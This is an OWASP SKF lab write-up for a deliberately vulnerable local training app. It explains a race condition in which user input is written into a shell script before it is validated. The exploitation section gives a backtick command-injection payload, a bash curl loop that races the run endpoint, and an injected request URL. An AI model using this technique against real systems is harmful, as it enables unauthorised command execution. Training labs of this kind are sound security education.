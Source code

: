 # KBID XXX - Race Condition

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:racecondition
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:racecondition
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise 
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}


![Docker image and write-up thanks to Contrahack.io !](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

#### Step1

{% hint style="success" %}
 Congratulations, you won the race
{% endhint %} 

![](.gitbook/assets/race1.png)


All you need to do now is to add your name to the board and get your price. 

The application shows an input box, where you can insert your username and go to the next screen, clicking "Make it mine".

The application verifies whether the username contains special characaters such as `"` and `\` and erases them. It also applies strict filtering on the text using the following regex:

`[A-Za-z0-9 ]*`

![](.gitbook/assets/race2.png)

If the username is correct, clicking `Boot` will put us on the score board. Yeah!!

![](.gitbook/assets/race3.png)

#### Step 2

This application suffers from a race condition vulnerability, but how can we identify it? 

If we look at the code we see that there are 4 functions being used:

1. `boot_validate(person)` 

	the function receives the username in input and executes the following:
	
	* deletes `"` and `\` from the username
	* opens `hello.sh` file
	* writes a command in it 
	* closes the file
	* logs some useful info 
	* checks if the username is in the format `[A-Za-z0-9 ]*`
	* returns the username if the regex succedes

2. `boot_clean()` that removes all the hello files (`hello.sh` and `hello.txt`)

3. `boot_run()` executes the `hello.sh` file

4. `boot_reset()` resets the system to the default settings

#### Step 3

If we intercept the traffic generate by the app we see that:

* a GET request is issued to validate the username and call `boot_validate(person)`

```text
GET /?person=test&action=validate
```

* clicking boot, will generate the request to execute the `boot_run()` function

```text
GET /?action=run HTTP/1.1
```

The logic behind the application is in the function `start()`. If the action is not `validate` or `reset`, the application runs `boot_run()` executing the `hello.sh` file. 

We also notice that the function `validate(person)` first inserts the command in the `hello.sh` and then validates the input, returning if it is valid or not.

```python

def boot_validate(person):
	#person = person.replace('"',"").replace("\\","")
	bootfile = open("hello.sh","w")
	bootfile.write("echo \"" + person + "\" > hello.txt")
	bootfile.close()

	os.system("echo 'hello.sh updated -- " + str(datetime.datetime.now()) + "' > log.txt")
	valid = os.popen("sed -n '/^echo \"[A-Za-z0-9 ]*\" > hello.txt$/p' hello.sh").read()
	os.system("echo 'hello.sh cleaned -- " + str(datetime.datetime.now()) + "' >> log.txt")
	
	return valid

```

{% hint style="success" %}
 	Everything works fine, so where is the problem?
{% endhint %}

The problem is that in this case, we have a very small window to execute the `boot_run()` function after the input is written in `hello.sh` and just before `return valid` is called. Again, there is a possibility to have a race condition only if the following steps are executed in this order:

1. pass our malicious payload to `boot_validate`
2. write the malicious payload in `hello.sh`
3. call `boot_run()`
4. `return valid` is called



## Exploitation

Before we can exploit the race condition, we need a good payload that will execute the command for us. We know that the double quotes and the backslash cannot be used to break the command, but we also know that using  '`' backtick. 

So our payload will be:

```
`id`

```

in order to execute the command `id` on the target system.

Now we can exploit this sequence to achieve a command injection. In order to do that we must send requests with high frequency.

Doing it manually is practically impossible, so we create a script that does that for us: 

```sh
#!/bin/bash
while true; do 

	curl -i -s -k  -X $'GET' \
	    -H $'Host: localhost:5000' -H $'User-Agent: Semen Rozhkov exploiter v1.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate ' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
	    $'http://localhost:5000/?action=run' | grep "Check this out"
done

```

and in the meantime we send the other request from the browser like

```
http://localhost:5000/?person=Default+User`id`&action=validate 
```

If we look in the logs we will see:


![](.gitbook/assets/race4.png)

{% hint style="success" %}
 Congratulations, you won the race for real now!!!!!!!!
{% endhint %} 

## Additional sources

{% embed url="https://www.owasp.org/index.php/Testing_for_Race_Conditions_(OWASP-AT-010)" %}

